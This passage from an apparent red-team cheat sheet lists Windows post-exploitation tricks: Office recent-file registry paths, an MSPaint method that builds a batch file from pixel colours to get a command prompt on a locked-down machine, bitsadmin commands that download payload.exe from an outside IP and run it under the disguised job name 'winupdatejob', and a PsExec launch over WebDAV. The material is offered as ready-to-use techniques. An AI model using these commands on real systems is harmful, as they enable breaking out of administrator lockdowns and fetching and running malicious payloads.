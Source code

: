 - 14.0 Office 2010
- 12.0 Office 2007
- 11.0 Office 2003
- 10.0 Office X

Recent office documents:

```
NTUSER.DAT\Software\Microsoft\Office{Version}{Excel|Word} UserMRU\LiveID_###\FileMRU
```

## Command Prompt from MSPaint:

If you find yourself on a locked down system and aren’t able to open a command prompt but do have access to Microsoft’s Paint program then this might be the hack for you; courtesy of Simon.

1. Load mspaint, it should start with a blank canvas
2. Use the resize menu option to change the drawing to 6 pixels wide by 1 pixel high.
3. Select the pencil drawing tool.
4. Use the Edit Colours option to create custom colours using the following RGB values:

```
Pixel 1 = R(10), G(0), B(0)
Pixel 2 = R(13), G(10), B(13)
Pixel 3 = R(100), G(109), B(99)
Pixel 4 = R(120), G(101), B(46)
Pixel 5 = R(0), G(0), B(101)
Pixel 6 = R(0), G(0), B(0)
```
5. For each color you create, paint 1 pixel working from left to right.
6. The final image should look something like this:

![pixels](https://user-images.githubusercontent.com/72598486/217630466-ef0dec9a-17a3-411f-9067-fa4914684b79.jpg)

7. Now save the picture using the ```File | Save``` as option and choose 24-bit Bitmap as the type.  I saved it as command.bmp
8. Make a copy of the file and rename it to command.bat.
9. Double click the file to run the batch file and you will open a command prompt!

## BITS Jobs and Downloads:

Starting with creating a job named “winupdatejob”, then we add the payload file in the job that we just created.

```
bitsadmin /addfile winupdatejob http://192.168.1.13/payload.exe C:\payload.exe
```

After adding the file, we use the /SetNotifyCmdLine switch to execute the payload. This is done with the help of an action that we scripted. First, it will start the cmd.exe and then, it will complete the download and then it will execute the said command in the background.

```
bitsadmin /SetNotifyCmdLine winupdatejob cmd.exe "/c bitsadmin.exe /complete winupdatejob | start /B C:\payload.exe"
```

After this, we run the /resume switch to get the download started.

```
bitsadmin /resume winupdatejob
```

## PSexec from WebDAV:

```
\\live.sysinternals.com\tools\PSExec64.exe -accepteula
```
